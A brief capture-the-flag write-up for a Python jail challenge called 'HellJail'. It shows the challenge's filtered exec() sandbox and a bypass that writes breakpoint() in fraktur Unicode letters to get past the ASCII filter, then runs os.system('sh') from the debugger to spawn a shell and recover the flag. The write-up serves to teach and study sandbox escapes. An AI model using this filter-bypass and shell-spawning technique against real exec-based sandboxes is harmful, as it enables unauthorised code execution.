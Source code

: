 # HellJail
`-`

## About the Challenge
We have been given a source code like this

```python
#!/usr/bin/env python3

from string import ascii_letters

code = input('> ')

if any(c in ascii_letters for c in code):
    print('You will never leave this place!')
elif any(c in '.:;,-_@"=/%\\' for c in code):
    print('You will never reach this point, but still, you CANNOT leave!')
else:
    exec(code)
```

And we need to escape from the sandbox but we can input any ASCII letter and also some of the special character

![preview](images/preview.png)


## How to Solve?
To solve this problem, we need to convert our payload first to gothic font (Im using this [website](https://yaytext.com/fraktur/)) and here is the payload I used

```
𝔟𝔯𝔢𝔞𝔨𝔭𝔬𝔦𝔫𝔱()
```

And then after enterring Python debugging, i ran this command

```python
import os
os.system('sh')
```

![flag](images/flag.png)

```
DANTE{4b4nd0n_all_h0p3_y3_who_3nter}
```